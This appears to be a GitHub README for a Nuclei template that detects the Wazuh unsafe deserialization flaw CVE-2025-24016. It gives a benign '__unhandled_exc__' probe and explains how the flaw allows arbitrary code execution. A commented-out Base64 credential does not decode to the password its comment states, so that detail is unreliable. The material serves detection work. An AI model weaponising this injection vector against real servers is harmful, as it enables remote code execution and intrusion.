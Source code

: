 # CVE-2025-24016 Wazuh Unsafe Deserialization RCE Detection

This repository contains a Nuclei template to detect the unsafe deserialization vulnerability in Wazuh servers, identified as **CVE-2025-24016**.

## Template Details

```yaml
id: wazuh-unsafe-deserialization
info:
  name: "Wazuh Unsafe Deserialization RCE Detection"
  author: "Hüseyin TINTAŞ"
  severity: critical
  description: |
    This template detects an unsafe deserialization vulnerability in Wazuh servers.
    The DistributedAPI deserializes JSON data using as_wazuh_object. If an attacker injects
    a malicious object (via __unhandled_exc__), arbitrary Python code execution can be achieved.
    Instead of triggering a shutdown (e.g. via exit), this template uses a non-existent class 
    ("NotARealClass") to generate a NameError. A NameError in the response indicates that the 
    payload reached the vulnerable deserialization function.
  tags: wazuh, deserialization, rce, unsafe, cve, cve-2025-24016
  reference:
    - https://documentation.wazuh.com/
requests:
  - method: POST
    path:
      - "{{BaseURL}}/security/user/authenticate/run_as"
    headers:
      Content-Type: application/json
      # If needed, uncomment the following line for authentication (Base64 encoded "wazuh-wui:MyS3cr37P450r.*-")
      # Authorization: "Basic d2F6dXcta3dpTUltUzNjcjM3UDA1MHItOg=="
    body: '{"__unhandled_exc__":{"__class__": "NotARealClass", "__args__": []}}'
    matchers:
      - type: status
        status:
          - 500
      - type: word
        part: body
        words:
          - "NameError"
```

## Usage

```bash
nuclei -t CVE-2025-24016.yaml -u http://example.com
```

## Contact

For any inquiries or further information, you can reach out to me through:

- [LinkedIn](https://www.linkedin.com/in/huseyintintas/)
- [Twitter](https://twitter.com/1337stif)